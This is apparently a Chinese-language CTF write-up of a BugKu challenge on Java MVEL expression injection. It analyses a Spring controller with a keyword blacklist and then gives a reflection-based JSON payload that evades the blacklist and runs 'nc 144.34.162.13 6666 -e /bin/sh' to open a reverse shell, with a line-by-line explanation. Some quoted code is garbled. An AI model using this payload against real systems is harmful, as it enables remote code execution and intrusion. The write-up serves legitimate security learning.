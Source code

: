 ### Java MVEL 表达式注入

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/681079d158cb8da5c8d3dfa5.png)

打开页面只有这一个功能可用

![](https://pic1.imgdb.cn/item/681085c058cb8da5c8d415aa.png)

在 Burp 中发现响应有个 `source`

![](https://pic1.imgdb.cn/item/6810860b58cb8da5c8d417c4.png)

访问拿到源码

![](https://pic1.imgdb.cn/item/6810863858cb8da5c8d41915.png)

使用 `@RestController` 注解，表示这是一个 Spring MVC 控制器，返回值会自动转换为 JSON 响应

```java
@RestController
public class MVELTest {
    // 类内容
}
```

初始化一个 `Setting` 对象，包含默认的 IP 列表和数字参数 6

```java
private Setting setting = new Setting("['115.195.167.159', '115.195.167.159', '164.90.230.201', '174.87.232.68']", 6);
```

处理 POST 请求，路径为 `/updateSysSetting`

接收 JSON 格式的 `Setting` 对象作为请求体

返回 JSON 响应，字符编码为 UTF-8

```java
@PostMapping(value = "/updateSysSetting", produces = "application/json;charset=UTF-8")
public ResponseObj updateSysSetting(@RequestBody Setting [ES], HttpServletResponse response) {
    // 方法实现
}
```

使用正则表达式检测传入的表达式是否包含危险关键词（如 Runtime、Process 等）

如果检测到恶意代码，返回 483 状态码和错误信息

```java
if (Pattern.matches(""{?i}.*(system[Runtime|Process|Thread|Lookup|http|Socket|restTemplate|MVEL|flag].*", [ES].getExp()) {
    response.setStatus(483);
    return new ResponseObj(false, "表达式包含恶意代码", "");
}
```

使用 MVEL 引擎执行传入的表达式

捕获并处理执行过程中的异常

```java
try {
    result = MVEL.expl(res.getExp());
    System.out.println(result.toString());
} catch (Exception e) {
    response.setStatus(580);
    return new ResponseObj(false, "表达式语法错误", e.getMessage());
}
```

尝试将结果转换为 `List<String>`（IP 列表）

如果转换失败，返回 580 状态码和错误信息

```java
try {
    allowedIP = (List<String>) result;
} catch (Exception e) {
    response.setStatus(580);
    return new ResponseObj(false, "表达式返回值不是IP列表", e.getMessage());
}
```

分析完毕后我们可以利用 Java 的反射机制来 RCE

```json
{
"exp": "''.getClass().forName('java.lang.Run'+'time').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Run'+'time').getMethod('getRu'+'ntime').invoke(null),'nc 144.34.162.13 6666 -e /bin/sh'))",
"limit": "60"
}
```

下面来解析下这段 payload

```java
// ''.getClass(): 获取空字符串的 Class 对象
''.getClass().forName('java.lang.Run'+'time')	// .forName('java.lang.Run'+'time'): 动态加载 java.lang.Runtime 类并返回其 Class 对象
  .getMethod('exec',''.getClass())	// 获取 Runtime.exec(String) 方法的 Method 对象
  .invoke(
    ''.getClass().forName('java.lang.Run'+'time')	// 再次获取 Runtime 类
      .getMethod('getRu'+'ntime')	// 获取静态方法 getRuntime()
      .invoke(null),	// 调用该方法（invoke(null) 因为这是静态方法）,返回 Runtime 类的单例实例
    'nc 144.34.162.13 6666 -e /bin/sh'	// 使用前面获取的 exec 方法，在 Runtime 实例上执行命令
  )
```

发送 payload

![](https://pic1.imgdb.cn/item/68108a8558cb8da5c8d42ac6.png)

监听端口拿到 flag

![](https://pic1.imgdb.cn/item/68108a9b58cb8da5c8d42ad5.png)

